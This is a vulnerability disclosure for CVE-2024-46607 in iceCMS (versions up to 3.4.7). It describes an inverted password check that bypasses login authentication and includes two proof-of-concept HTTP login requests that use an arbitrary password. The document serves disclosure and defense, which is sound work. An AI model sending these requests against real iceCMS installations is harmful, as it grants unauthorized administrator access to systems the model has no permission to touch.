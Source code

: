 **[CVE-ID]**

CVE-2024-46607

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**
  The bug is in the loginAdmin method in the UserController.java file. The fundamental reason is a code logic error. The verifyPassword method returns true and false. True represents equality, which means the password entered by the user is correct. False represents inequality, which means the password entered by the user is incorrect. In this if statement, when the password is incorrect, the program continues to run directly. However, when the password is correct, an error is reported.

![pic1](/icecms/PIC/CVE-2024-46607-1.png)


In the implementation of the verifyPassword method, the encrypted password in the database is directly compared with the plaintext password passed in by the user. So it is definitely wrong and the authentication is bypassed directly for login.

![pic2](/icecms/PIC/CVE-2024-46607-2.png)

## POC：

Use Burpsuite to send the login data packet as follows. Or log in directly on the login page and enter any password.

```
GET /User/loginAdmin?username=admin&password=asdasdas HTTP/1.1
Host: [IP]
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
![pic3](/icecms/PIC/CVE-2024-46607-3.png)


*There is also a same problem in the login function of WebUserController.java.*
···

POST /Websuser/login HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 32

username=test1&password=asdasdas

···

